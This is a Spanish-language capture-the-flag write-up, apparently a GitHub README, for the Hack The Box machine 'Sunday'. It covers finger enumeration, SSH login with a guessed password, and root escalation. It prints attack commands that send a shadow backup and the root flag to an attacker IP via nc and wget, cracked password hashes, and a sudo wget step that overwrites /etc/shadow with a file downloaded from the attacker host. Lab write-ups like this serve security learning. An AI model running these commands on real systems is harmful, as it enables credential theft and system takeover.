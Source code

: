 # Sunday

## NMAP

Nos encontramos con varios puertos abiertos el que nos llama la atencion es el 79. Estuve enumerando otros protocolos pero no encontre nada


![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/5c96a38b-990e-4d74-9e4c-c59001160e63)

> El protocolo Finger es un protocolo de red que se utilizaba originalmente para obtener información sobre los usuarios de un sistema remoto. 

Lo que he visto es que simpre hay te intentar evitar la enumeracion de SSh que sea la ultima opcion es muy lenta.

## RCE

Tenemos tres usuarios que encontramos con el finger root, sammy y sunny. Es importante que este check se haga para todas las maquinas sobre todo para las viejas 

***1. Checar si el password de un servicio ssh no es el nombre de la maquina***
***2. Checar si el nombre de la maquina no sea un subdominio***

En este caso el password si fue el nombre de la maquina.

```
ssh sunny@10.129.64.41 -p 22022

passwd:sunday
```

## Priv Escalation

En el bash history encontramos un shadow.backup

![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/9b445f9b-1a74-4507-bc34-3e6402cc1bfe)


Entonces si tenemos el shadow y podemos leer el /etc/passwd se puede crackear el password de otros usuarios...

![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/764daca6-63ae-4f1e-ae24-8b2d2c4b4cbc)


Nos compartimos el shadow

```
nc 10.10.14.57 1234 < /backup/shadow.backup

nc -lvnp 1234 > password.txt    

unshadow password.txt shadow.txt > un.txt


```

### Hashcat

Para saber el modo fijate en los $ 

![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/384ac6ca-fbe2-4855-ba73-1935c8d0f8c4)

![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/a49afbe4-a1f3-4f3b-884c-2a4e2ef61a52)


```
hashcat -m 7400 -a 0 un.txt /usr/share/wordlists/rockyou.txt
```


![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/972c6474-d9c6-47d2-8354-8b428a7b4ae0)


```
$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:cooldude!
$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:sunday

```

Nos conectamos por ssh pero ahora con el usuario sammy.


![image](https://github.com/gecr07/Sunday-HTB/assets/63270579/da30fc58-3814-490d-81be-4703ada4da49)


Ya con esto tenemos una via potencial para ser root o leer la flag.

```
sudo wget --input-file /root/root.txt
```

Tambien podemos mandar el archivo dentro de una peticion post.

```
sudo wget --post-file /root/root.txt http://10.10.14.57:443/

## attacker

nc -lvnp 443 

```

Otra manera es sobre escribir el archivo shadow para que root tenga el mismo passwd que sunny

```
root:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::

## Metemos lo mismo que sunny solo cambiamos el usuario a root y la contraseña sera la misma.

 sudo wget -O /etc/shadow http://10.10.14.57:8081/shadow 
```

Y la que yo use es ver en GTOBINs y ahi nos regresa una shell root.






























